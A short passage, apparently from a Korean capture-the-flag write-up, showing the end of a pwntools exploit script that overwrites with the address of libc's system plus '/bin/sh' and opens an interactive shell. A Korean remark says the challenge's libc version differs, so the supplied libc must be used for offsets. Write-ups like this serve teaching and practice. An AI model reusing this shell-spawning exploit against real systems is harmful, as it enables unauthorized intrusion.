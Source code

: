 ```python
slog("libc_base", lb)
slog("system", system)

p.send(p64(system)+b"/bin/sh\x00")
p.interactive()
```

> 해당 문제에서는 libc의 버전을 다르게 참조하여 기존에 사용하는 libc와는 offset 차이가 있을 것으로 보인다. 그렇기에 문제에서 제공해주는 libc를 참조하게 되면 해결할 수 있다.